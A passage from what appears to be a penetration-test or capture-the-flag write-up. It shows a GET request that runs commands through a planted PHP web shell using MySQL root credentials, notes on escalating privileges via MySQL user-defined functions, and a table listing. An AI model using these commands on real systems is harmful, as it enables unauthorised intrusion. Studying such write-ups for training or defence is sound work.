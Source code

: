 got code execution with `GET /shop/vqmod/xml/cantfindmyshell.php?var=mysql+-u+root+-pchangethis+-v+-e+"system+id"+ecom HTTP/1.1`


> had to specify `-e` to execute SQL commands, system to run system commands, and had to end the line with the database name 'ecom'


Unfortunately, I was still executing commands as `www-data` however, need to figure out how to escalate privileges; Found an interesting thing in the mysql references that talks about user defined variables

> User-defined variables are session specific. A user variable defined by one client cannot be seen or used by other clients.

[https://dev.mysql.com/doc/refman/8.0/en/performance-schema-user-defined-functions-table.html](https://dev.mysql.com/doc/refman/8.0/en/performance-schema-user-defined-functions-table.html)

There was also a section on user-defined functions

```text
--------------
show tables
--------------

Tables_in_mysql
columns_priv
db
engine_cost
event
func
general_log
gtid_executed
help_category
help_keyword
help_relation
help_topic
innodb_index_stats
innodb_table_stats
ndb_binlog_index
plugin
proc
procs_priv
proxies_priv
server_cost
servers
slave_master_info
slave_relay_log_info
slave_worker_info
slow_log
tables_priv
time_zone
time_zone_leap_second
time_zone_name
time_zone_transition
time_zone_transition_type
user
```
